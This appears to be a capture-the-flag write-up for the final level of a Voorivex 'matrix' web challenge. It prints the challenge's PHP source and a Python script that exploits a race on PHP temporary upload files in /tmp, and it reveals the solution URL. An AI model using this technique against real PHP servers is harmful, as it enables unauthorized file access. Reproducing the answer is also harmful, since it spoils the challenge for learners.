# Level-30

Level30 (Final) (https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/)

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if (isset($_GET["show-me-more"])) {
    print_r(scandir("/tmp/"));
    die();
}

function security_check($input)
{
    $pattern = '/^\/tmp\/[0-9a-zA-Z]+$/';
    if (preg_match($pattern, $input)) {
        return True;
    }
    return False;
}

if (security_check($_GET['code'])) {
    $file_contents = file_get_contents($_GET['code']);
    if (strpos($file_contents, 'escape_from_matrix') === 0) {
        require_once('next.php');
        die($next);
    }
}

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Check if there is a file selected
    if (isset($_FILES["file"])) {
        $file = $_FILES["file"];

        // File details
        $fileName = $file["name"];
        $fileType = $file["type"];
        $fileSize = $file["size"];
        $fileTmpName = $file["tmp_name"];
        $fileError = $file["error"];

        $you_are_god = False;
        if ($you_are_god === True) {

            $uploadDir = "uploads/";
            if (!file_exists($uploadDir)) {
                mkdir($uploadDir, 0755, true);
            }

            $destination = $uploadDir . $fileName;
            if (move_uploaded_file($fileTmpName, $destination)) {
                echo "File uploaded successfully.";
            } else {
                echo "Error uploading file.";
            }
        }

        die('you are not the God');
    }
}

?>
```


according to the code we need these conditions:

- parameter `code` shoud start with `/tmp/`
- content of the file must begin with `escape_from_matrix`
- we need to upload a file to server
- we should immediately send the request to `https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more`
- we should get all the array values and send another request to get /tmp/ files

the python code :

```python
import requests
import re

main_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/'

myfile = open("test.txt", "rb")

test_upload = requests.post(main_url, files={'file':myfile})
if test_upload.ok:
    print('uploaded')
print(test_upload.text)


show_me_more_url = 'https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec/?show-me-more'
respons = requests.get(show_me_more_url)
print(respons.text)

chunks = re.findall('php.*',respons.text)

print(chunks)

for i in chunks:
    l_resp = requests.get(f'{main_url}?code=/tmp/{i}')
    print(l_resp.text)
```


  
go to:

```text
https://matrix.voorivex.academy/yOu-havE-jUst-escaped-the-Matrix!/
```
